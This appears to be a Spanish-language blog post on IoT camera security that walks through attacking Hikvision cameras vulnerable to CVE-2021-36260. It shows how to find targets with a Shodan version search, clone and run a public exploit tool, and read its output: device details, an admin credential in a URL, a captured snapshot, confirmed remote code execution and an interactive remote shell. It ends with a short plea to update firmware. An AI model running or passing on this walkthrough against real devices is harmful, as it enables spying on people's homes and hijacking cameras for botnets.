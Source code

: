 ```yaml
---
title: Firmware updates
date: 2025-07-30 11:00:00 +0200
categories: [ciberseguridad, redes]
tags: [camaras, shodan, hacking, firmware, iot]     
image:
    path: https://upload.wikimedia.org/wikipedia/commons/thumb/8/88/Firmware_update_Fuji_Instax_Liplay.jpg/500px-Firmware_update_Fuji_Instax_Liplay.jpg1024px-Surface_Web_%26_Deep_Web.jpg
    alt: firmware update
---
```


## Ciberseguridad de IoT
Quiero dejar evidencia de lo sencillo que puede resultarle a actores maliciosos, obtener información de dispositivos IoT o hackerlos. Estos dispositivos, cámaras, sensores, aspiradoras, neveras, routers, etc, etc y cada vez hay más claro que no todos se conectan a Internet, sino "solamente a la red interna", esto en la mayoría de casos es cierto, pero poco a poco iremos "abriendo más puertos" para tener acceso a estos dispositivos desde Internet o dicho de otra forma, les daremos acceso a "la red" y no los tendremos tan aislados porque nos proporcionan "bienestar". Por ejemplo las cámaras de videovigilancia cada vez son más comunes y que en cierta forma proporcionan seguridad, a su vez el poder usar "la red" para tener acceso a ellas mejora la observabilidad, y retroalimenta la seguridad. 

## Exploits  
Los actores maliciosos buscan vulnerabilidades para por ejemplo crear una botnet con dispositivos IoT. Cuando encuentran una como esta ya sea investigando ellos mismos o por por terceros, pasan a la siguiente fase. ```CVE-2021-36260``` 

## Dorking y sondas
Ahora que los actores maliciosos conocen las vulnerabilidades, lo que necesitan es encontrar objetivos a los que aplicar las técnicas necesarias para ganar acceso, privilegios y control sobre los mismos. 
Hay varias formas de encontrar estos dispositivos, puedes hacerlo con un script que haga un request aletoriamente por IPs para comprobar si ese puerto es una cam o una marca en concreto, lo que se llama escrapeo, con herramientas escáneres como Zmap capaces de escanear Internet entero en pocos minutos. También puedes usar la opción más dependiente que es usar una API de terceros como [Shodan.io]https://www.shodan.io/, que es la que usé para testear. Otras formulas de búsqueda por supuesto. 

![shodan.io](https://upload.wikimedia.org/wikipedia/en/3/38/Shodan_%28website%29_logo.png)

Ahora en el buscador de Shodan introducimos simplemente ```3.1.3.150324``` esta sería la versión de la web vulnerable que nos indican en el exploit, si bien puede que afecte a más productos y por lo tanto a otras versiones de la web. Esto solo es el filtro que hemos aplicado a Shodan.io para el resultado de su motor. Aplicando otros filtros es posible que obtengamos más resultados. 

### Preparación 
``` shell
git clone https://github.com/tamim1089/HikvisionExploiter
python -m venv .
source bin/activate
pip install -r requirements.txt
nano targets.txt #introduces los targets ip:puerto
```

## Explotación

``` shell
python checker.py
=======================================================
Target: 192.168.2.221:81
=======================================================

[+] Directory accessible: http://192.168.2.221:81/onvif-http/snapshot?auth=YWRtaW46MTEK

[+] Device Info
    deviceName: IP CAMERA
    deviceID: 88
    deviceDescription: IPCamera
    deviceLocation: Lugo
    systemContact: Hikvision.China
    model: DS-2CD3T20D-I3
    serialNumber: DS-*********
    macAddress: c4:********
    firmwareVersion: V5.3.1
    firmwareReleasedDate: build 150401
    bootVersion: V1.3.4
    bootReleasedDate: 100316
    hardwareVersion: 0x0

[+] Users
    admin: Administrator
[+] Snapshot saved: logs/192.168.2.221:81_20250730_124156/20250730_124156.jpg

-- CVE-2021-36260 (RCE Command Injection Check) --
    RCE confirmed! Device is VULNERABLE!!!
    Run this to get a shell: chmod +x shell.sh && ./shell.sh 192.168.2.221:81

```

RCE shell, el proyecto viene acompañado de una utilidad para interactuar con el dispositivo a través de Curl 

```shell
(HikvisionExploiter) ┌──(pablo☠office)
└─$ ./shell.sh 192.168.2.221:81
[+] Target 192.168.2.221:81 appears vulnerable!
Connected to Hikvision target: 192.168.2.221:81
Type commands to execute remotely. Ctrl+C to exit.
hikvision-shell> ls
applib
certs
initrun.sh
pidfile
process
r2_isp_config
sound
webLib
```
Si el dispositivo es vulnerable además se generará un carpeta en el directorio logs intentará checkear si el dispostivo es  vulnerable a obtener una shell y además sacará una fotograma de la webcam y una copia del config_enc.bin el proyecto dice que intentará descifrarlo pero no he visot que lo haga, se quedará en un intento. 

``` shell
├── 192.168.2.221:81_20250730_124156
│   ├── 20250730_124156.jpg
│   └── config_enc.bin
```

## Firmware updates

Tengo un artículo explicando 14 puntos a tener en cuenta a la hora de securizar un router, en el se habla también de las actualizaciones y del miedo que se tiene a parchear, actualizar, etc este tipo de dispositivos. Solo intenta evaluar lo siguiente: Romper/brikear un dispositivo es algo técnico y puede que cueste dinero y tiempo, que te espíen en tu propia casa es algo personal. 

![webcam guitarrist](https://upload.wikimedia.org/wikipedia/commons/6/69/1975_Alvarez_guitar_%282010-10-18_03.14.15_by_fenderfish%29.jpg)

El de la foto no soy yo, pero ejemplifica la situación. 